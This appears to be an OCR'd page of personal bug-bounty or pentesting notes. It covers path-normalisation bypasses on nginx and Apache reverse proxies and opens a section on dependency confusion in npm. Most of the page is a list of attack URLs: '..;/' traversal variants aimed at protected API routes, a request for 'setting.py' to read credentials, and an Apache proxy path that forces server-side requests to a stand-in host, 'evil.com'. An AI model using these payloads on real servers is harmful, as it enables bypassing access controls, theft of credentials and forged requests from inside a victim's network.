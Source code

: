         >>http://site.com/app/../ would be processed ny nginx to '/' and look for the rule '/' instead of "/app"

        >>Therefore , /../ of %2f..%2f or similar variation won't work

        ==>> Exploit for this is http://site.com/app/..;/secretapi/users
                                 http://site.com/app../secretapi/users
                                     http://site.com/static../setting.py       # we can load file witch have creds
                                                         http://site.com/protcted//../
 
                                   
                                                   
https://www.example.com..;/api/v1/users
https://www.example.com/api..;/v1/users
https://www.example.com/api/v1..;/users
https://www.example.com/..;api/v1/users
https://www.example.com/api/..;v1/users
https://www.example.com/api/v1/..;users
https://www.example.com/api/v1/users/..;
https://www.example.com/api/v1/users/..;/                                                        
                                                         
                                                         
                                                         
                                                         
                                                         
=======>>>>>>>>>>Apache as a reverse proxy

                Processing done by apache :
        
       >Url decodes once & mormalize the path before matching location rule
           
       >////(multiple slash) becomes / if it is in the begining eg ///path=> /path
            
           >afterwards , /path//path2 apache treats // as an individual directory with blank name 
           
           > send processd request
           
           
           >Exploit: Any request to apache server with path /img/@evil.com/ or /img/.evil.com/
           would now allow make a arbitrary server side request to evil.com via proxy .
           
           
           
           
  





56>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>     Dependecy Confusion







https://www.youtube.com/watch?v=UHOvcdjAixY

1. In Web application if we found  package.json or packeg-lock.json then we test for dependency confusion

2. Then we test for public and private npm library 

3. Dependency confusion happen only on private library and check on https://registry.npmjs.org/underscore like underscore is available we cannot takeover
